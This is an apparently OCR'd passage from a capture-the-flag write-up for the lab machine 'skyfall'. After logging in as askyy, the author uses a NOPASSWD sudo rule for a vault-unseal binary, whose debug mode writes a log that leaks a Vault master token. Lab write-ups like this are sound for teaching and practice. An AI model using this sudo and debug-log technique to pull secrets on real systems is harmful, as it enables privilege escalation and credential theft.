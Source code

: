 ```bash                      
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Mon Feb  5 17:49:16 2024 from 10.10.14.151
```
This got me into skyfall as the user askyy
***
# Root
Once on the box I ran the standard `sudo -l`
```bash
askyy@skyfall:~$ sudo -l
Matching Defaults entries for askyy on skyfall:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User askyy may run the following commands on skyfall:
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml [-vhd]*
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml
```
Testing this I ran 
```bash
askyy@skyfall:~$ sudo /root/vault/-unseal -c /etc/vault-unseal.yaml -d
```
This put a debug.log file in my current directory NOTE: this file was present in the ~/ but not readable by the user askyy before I ran the command above. 
## debug.log 
looking at the log, there was a Master token present in it. 
```BASH
skyy@skyfall:~$ cat debug.log 
2024/02/05 17:50:35 Initializing logger...
2024/02/05 17:50:35 Reading: /etc/vault-unseal.yaml
2024/02/05 17:50:35 Security Risk!
2024/02/05 17:50:35 Master token found in config: hvs.[REDACTED]
2024/02/05 17:50:35 Found Vault node: http://prd23-vault-internal.skyfall.htb
2024/02/05 17:50:35 Check interval: 5s
2024/02/05 17:50:35 Max checks: 5
2024/02/05 17:50:35 Establishing connection to Vault...
2024/02/05 17:50:35 Successfully connected to Vault: http://prd23-vault-internal.skyfall.htb
2024/02/05 17:50:35 Checking seal status
2024/02/05 17:50:35 Vault sealed: false
```
